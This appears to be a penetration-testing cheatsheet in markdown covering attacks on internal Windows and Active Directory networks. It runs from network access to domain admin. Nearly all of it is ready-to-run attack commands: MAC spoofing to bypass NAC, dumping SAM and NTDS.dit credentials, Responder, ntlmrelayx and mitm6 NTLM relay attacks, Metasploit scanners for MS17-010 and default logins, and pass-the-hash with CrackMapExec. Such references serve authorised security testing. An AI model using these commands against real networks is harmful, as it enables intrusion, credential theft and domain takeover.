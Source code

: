 # Internal Penetration Testing

## 1. **No network access**

### Wi-Fi

* Crack WPA or crack/replay PEAP

> For more details, see next cheatsheet : [WiFi](02-wifi.md)

### NAC - MAC filtering

1. Spoof mac, static ip, gateway ip, from any authorized device \(e.g printer or voip phone\), and disconnect it: 
```sh
macchanger -r eth0
```
2. force your static IP to match the one that you spoofed the mac from : 
```sh
sudo ifconfig <static_ip>/24 && sudo ip route add default via <gateway_ip>
```

### NAC - 802.1X

* [Fenrir](https://github.com/Orange-Cyberdefense/fenrir-ocd) (IEEE 802.1X bypass)

---

## 2. **No account yet**

### Physical access

Boot from Kali Linux and dump creds

```bash
cd SystemRoot%\system32\Config\SAM
impacket-secretsdump -system SYSTEM -sam SAM -security SECURITY -local
```
> For more details, see next cheatsheet : [Windows Post Exploitation](05-post-exploitation-windows.md)

---

### Network Access

Port and service scan

nmap

```sh
nmap -Pn -n -sSUV -n -vvv --reason -pT:137-139,445,U:137-139 -oA SMB <hosts>
nmap --version-all -sV -sC -oA top1000 <hosts>
nmap --version-all -sV -sC -p- -oA allports <hosts>
```

Search for low hanging fruits \(MS17 / default password TOMCAT VNC ... \)

```bash
use auxiliary/scanner/smb/smb_ms17_010
use auxiliary/scanner/mssql/mssql_login
use auxiliary/scanner/http/tomcat_mgr_login
searchsploit <service_name>
```

---

Man-In-The-Middle

Responder + NTLMrelayx

1. First we need to edit  responder.conf like this :

`vim /usr/share/responder/Responder.conf`

```bash
[Responder Core]

; Servers to start
SQL = On
SMB = Off     # Turn this off
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off    # Turn this off
HTTPS = On
DNS = On
LDAP = On
```

2. Then we create a list of targets :

```bash
nmap -T4 -Pn -p 445 --open -oA <outfile> <targets>
cat *.gnmap | grep -i "open/tcp" | cut -d " " -f2 | sort -u > perim_up_smb.txt
cme smb perim_up_smb.txt --gen-relay-list relaylistOutputFilename.txt
```

> if the scope is small : `cme smb <targets> --gen-relay-list relaylistOutputFilename.txt`

3. After we can run Responder + ntlmrelayx

```bash
python Responder.py -I <interface> -rdw
ntlmrelayx.py -tf relaylistOutputFilename.txt
```

> This command will generate many log files which contain SAM hashes, just get all these files and store it into a formatted file that includes all hashes. \( `cat *.sam |sort -u > hashs.txt` \) Then you can just run CrackMapExec on full scope using theses hashes :

`crackmapexec smb perim_up_smb.txt -u Administrator -d '.' -H hashs.txt --lsa`

mitm6 + NTLMrelayx

```bash
sudo mitm6 -hw icorp-w10 -d internal.corp --ignore-nofqnd
ntlmrelayx.py -tf relaylistOutputFilename.txt -6 
```

ARP \(use with caution !\)

```bash
Bettercap
Cain.exe (& Abel)
```

---

## 3. **Unprivileged account only**

### Get a shell

> For more details, see next cheatsheets : [Shell](../useful-commands/shell.md) and [AV Bypass](09-antivirus-bypass)

---

### Local Privilege Escalation

> For more details, see next cheatsheet : [Local Privilege Escalation Windows](03-lpe-windows.md)

---

### Domain Escalation

> For more details, see next cheatsheet : [Domain Escalation](08-domain-escalation.md)

---

## 4. **Local Admin account**

### Post-Exploitation

> For more details, see next cheatsheet : [Local Privilege Escalation Windows](05-post-exploitation-windows.md)

### Pivoting

> For more details, see next cheatsheet : [Pivoting](07-pivoting.md)

### Replay the secrets found

Kerberos ticket, LM/NTLM hash or cleartext password with CrackMapExec

```bash
crackmapexec smb <host_file> -u <user> -d <domain> -H <hash> --lsa
crackmapexec smb <host_file> -u <user> -d <domain> -H <hash> --sam
```

---

## 5. **Domain admin account**

### Dump NDTS.dit from DC

```bash
# CrackMapExec using password
sudo cme smb <target> -u <domain_admin> -p '<pass>' --ntds

# CrackMapExec using kerberos ticket
export KRB5CCNAME=<user>.ccache 
sudo cme smb <target> --kerberos --ntds
```